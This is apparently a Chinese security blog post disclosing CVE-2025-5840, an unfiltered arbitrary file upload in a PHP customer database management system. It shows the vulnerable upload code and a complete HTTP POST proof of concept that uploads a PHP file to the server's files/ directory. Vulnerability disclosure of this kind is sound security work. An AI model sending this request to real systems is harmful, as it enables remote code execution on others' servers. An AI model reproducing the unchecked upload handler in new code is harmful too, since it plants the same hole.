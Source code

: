 #  国外某数据库管理系统存在前台任意文件上传漏洞 (CVE-2025-5840)  
原创 XingYue404  星悦安全   2025-06-12 07:10  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**客户数据库管理系统 （CDMS）** 是一种功能强大且必不可少的工具，旨在 **********以集中和结构化的方式存储、管理和组织客户**或**客户信息**。该系统使企业能够有效地处理客户数据，包括联系方式、交易历史、通信日志、偏好和其他相关记录.  
  
## 0x01 漏洞研究&复现  
  
位于   
/user_update_customer_order.php 中通过POST传入 upload_file 参数即可上传任意文件，且未加过滤，导致漏洞产生.  
  
```
<?php
include 'conn.php';
session_start();
$response = array();

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $orderId = mysqli_real_escape_string($conn, $_POST['order_id']);
    $latestEngagementDate = mysqli_real_escape_string($conn, $_POST['latest_engagement_date']);
    $remarks = mysqli_real_escape_string($conn, $_POST['remarks']);
    $orderStatus = mysqli_real_escape_string($conn, $_POST['order_status']);

    $uploadedFile = '';
    $uploadedFileCancelled = '';

    if (!empty($_FILES['uploaded_file']['name'])) {
        $targetDirectory = "files/";
        $uploadedFile = basename($_FILES['uploaded_file']['name']);
        $targetFile = $targetDirectory . $uploadedFile;

        if (!move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $targetFile)) {
            $response['status'] = 'error';
            $response['message'] = 'Error uploading file.';
            echo json_encode($response);
            exit();
        }
    }

    if (!empty($_FILES['uploaded_file_cancelled']['name'])) {
        $targetDirectory = "files/";
        $uploadedFileCancelled = basename($_FILES['uploaded_file_cancelled']['name']);
        $targetFileCancelled = $targetDirectory . $uploadedFileCancelled;

        if (!move_uploaded_file($_FILES['uploaded_file_cancelled']['tmp_name'], $targetFileCancelled)) {
            $response['status'] = 'error';
            $response['message'] = 'Error uploading proof of cancellation.';
            echo json_encode($response);
            exit();
        }
    }

```  
  
  
Payload:  
  
  
```
POST /cdm/user_update_customer_order.php HTTP/1.1
Host: localhost
Content-Length: 322
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryF7eA6RTdWc8vj9A2
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdm/superadmin_sales_manager.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n0ca46ek2kkbqokdojeoidfib0
Connection: close

------WebKitFormBoundaryF7eA6RTdWc8vj9A2
Content-Disposition: form-data; name="order_id"

123
------WebKitFormBoundaryF7eA6RTdWc8vj9A2
Content-Disposition: form-data; name="uploaded_file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryF7eA6RTdWc8vj9A2--

```  
  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fOXHELN62dVU9UqpHrDQqRp9WRPm4GGPb7B0pibRhJIbQg5v6nsibiaMbcciaiajEe7paDAiczI1uq4hTQ/640?wx_fmt=png&from=appmsg "")  
  
  
文件上传在 /  
files/xxx.php  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fOXHELN62dVU9UqpHrDQqRibVBadL8t0nZX9geib6gkUmDhHWd3dnF6k7cyvFzChOqIibp18rgyGKLA/640?wx_fmt=png&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**数据库源码关注公众号发送 250612 下载!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
